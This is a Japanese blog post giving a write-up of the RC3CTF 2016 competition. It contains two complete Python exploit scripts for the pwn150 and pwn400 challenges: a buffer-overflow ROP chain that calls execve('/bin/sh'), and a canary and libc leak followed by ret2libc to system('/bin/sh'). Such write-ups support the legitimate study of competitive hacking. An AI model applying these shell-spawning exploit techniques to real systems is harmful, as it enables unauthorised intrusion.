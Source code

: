 ```yaml
---
layout: post
title: RC3CTF 2016 writeup
---
```


WackMCで参加しました, 1700ptでおそらく100〜150位くらいです.(スコアボードが競技終了後見れなくなった)

テスト勉強の息抜きのつもりが結構やってしまったし死にました.

web100, pwn150, pwn400, をsubmitしました.

## web100

cssに書いてた..

## pwn150

オプション1でどんどん追加していくとBOFが出来るのでROP

staticallyなバイナリだったのでrop gadgetが豊富→ROPで攻める. が正攻法と思ってたんですが

checksecしてみるとNX disenableだったのでシェルコードで良かったですね...(頭が悪い)

```python
from No___Op import *

target = 'ims.ctf.rc3.club:7777'

c = Pwning( target )

for i in range(6):
	c.sendall('1')
	c.sendall('1')
	c.sendall('AAAAAAAA')

raw_input('dbg')

addr_bss = 0x080f0f80
#0x080908e4: mov dword [eax+0x20], ecx ; ret  ;  (1 found)
addr_ptr = 0x080908e4

addr_int80 = 0x080bf469
pop_ebx = 0x080c1d3b
pop_ecx = 0x080ea1e5
pop_edx = 0x080e2845
pop_eax = 0x080e7a25
p2ret = 0x0805a3f3 # esi edi
#p2ret = 0x08073509

c.sendall('1')
c.sendall(str(pop_ebx))
c.sendall('B' * 4 + 'C' * 4)

c.sendall('1')
c.sendall(str(11))
c.sendall(p32(addr_bss) + p32(pop_eax))

c.sendall('1')
c.sendall(str(p2ret))
c.sendall(p32(pop_ecx) + p32(0))

c.sendall('1')
c.sendall(str(pop_eax))
c.sendall(p32(addr_bss) + p32(0))

c.sendall('1')
c.sendall(str(int('/bin'[::-1].encode('hex'), 16)))
c.sendall(p32(addr_bss) + p32(pop_ecx))


c.sendall('1')
c.sendall(str(addr_bss + 4))
c.sendall(p32(addr_ptr) + p32(pop_eax))

c.sendall('1')
c.sendall(str(addr_ptr))
c.sendall(p32(pop_ecx) + '/sh\0')

c.sendall('1')
c.sendall(str(p2ret))
c.sendall(p32(pop_eax) + p32(11))

c.sendall('1')
c.sendall(str(pop_ecx))
c.sendall(p32(0) + p32(pop_ebx))

c.sendall('1')
c.sendall(str(0))
c.sendall(p32(pop_ecx) + p32(pop_ecx))

c.sendall('1')
c.sendall(str(pop_ebx))
c.sendall(p32(pop_edx) + p32(0))

c.sendall('1')
c.sendall('1')
c.sendall(p32(addr_bss + 0x20)  + p32(addr_int80))

c.sendall('1')
c.sendall(str(0x41414141))
c.sendall(p32(0x41414142) * 2)

c.dbg_shell()
```

## pwn400

pwn150のバイナリにNX+Canaryの防御機構が追加されたバイナリ.

3のオプションくらいで, 1で書き込んだものを見れるんですけど, その際に何番目読み込むか聞かれます.

で, -1とかやっても読み込めたのでstack上ならどこでも読み込めます.

libcのアドレスとcanaryをリークしてsystem("/bin/sh");まで持っていきました.

```python
from No___Op import *

target = 'localhost:17171'
target = 'ims.ctf.rc3.club:8888'

c = Pwning( target )

c.sendall('1')
c.sendall('1')
c.sendall('A' * 8)
c.sendall('3')
c.sendall('-4')

c.read_until('Product ID: ')

libc_base = (int(c.recv(10), 10) & 0xffffffff) - 0x1a7000

#info(hex(libc_base))

c.read_until('Product Code: ')

c.recv(4)
canary = u32(c.recv(4))

succ('canary	: ' + hex(canary))
succ('libc_base	: ' + hex(libc_base))

offset_system = 0x0003fe70
offset_binsh = 0x0015da8c

#offset_system = 0x00040310
#offset_binsh = 0x0016084c

libc_system = libc_base + offset_system
libc_binsh = libc_base + offset_binsh

succ('system	: ' + hex(libc_system))
succ('binsh 	: ' + hex(libc_binsh))


for i in range(4):
	c.sendall('1')
	c.sendall('1')
	c.sendall('a' * 8)

c.sendall('1')
c.sendall(str(canary))
c.sendall('mazaimazai')

c.sendall('1')
c.sendall('114514')
c.sendall('ikisugii')

c.sendall('1')
c.sendall(str(libc_binsh))
c.sendall(p32(libc_system) * 2)

c.sendall('4')
c.sendall('4')
c.sendall('4')
c.sendall('4')
c.sendall('ls -lia')
c.sendall('ls -lia')
c.dbg_shell()
```


* * *

留年からの死をキメそうなのに, テスト前にCTFをしてる人は何をやってもダメ.

ちなみに前期末時点の成績, 赤点6科目ありました.

残りのテスト頑張ります.

